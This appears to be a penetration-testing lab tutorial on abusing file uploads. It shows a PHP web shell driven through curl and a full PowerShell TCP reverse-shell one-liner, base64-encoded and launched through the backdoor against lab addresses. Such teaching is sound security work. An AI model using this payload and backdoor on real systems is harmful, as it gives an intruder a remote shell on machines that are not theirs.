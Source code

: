 > We should be aware that the file types of our web shells may be blacklisted via a filter or upload mechanism. In situations like this, we can try to bypass the filter as in this section. However, there are other options to consider. Web applications handling and managing files often enable users to rename or modify files. We could abuse this by uploading a file with an innocent file type like **.txt**, then changing the file back to the original file type of the web shell by renaming it.

Let's use curl to provide dir as a command for the "cmd" parameter of our uploaded web shell.
```
kali@kali:~$ curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=dir
```

Let's use a [PowerShell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) for our reverse shell. Since there are several special characters in the reverse shell one-liner, we will encode the string with base64. We can use PowerShell or an online converter to perform the encoding.

In this demonstration, we'll use PowerShell on our Kali machine to encode the reverse shell one-liner. First, let's create the variable *$Text*, which will be used for storing the reverse shell one-liner as a string. Then, we can use the method [convert](https://docs.microsoft.com/en-us/dotnet/api/system.text.encoding.convert) and the property [*Unicode*](https://docs.microsoft.com/en-us/dotnet/api/system.text.encoding.unicode) from the class [*Encoding*](https://docs.microsoft.com/en-us/dotnet/api/system.text.encoding) to encode the contents of the *$Text* variable.
```sh
kali@kali:~$ pwsh
PowerShell 7.1.3
...

PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'


PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

PS> $EncodedText =[Convert]::ToBase64String($Bytes)

PS> $EncodedText
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA

PS> exit
```

The *$EncodedText* variable contains the encoded reverse shell one-liner. Let's use **curl** to execute the encoded one-liner via the uploaded **simple-backdoor.pHP**. We can add the base64 encoded string for the powershell command using the **-enc** parameter. We'll also need to use URL encoding for the spaces.
```sh
kali@kali:~$ curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```
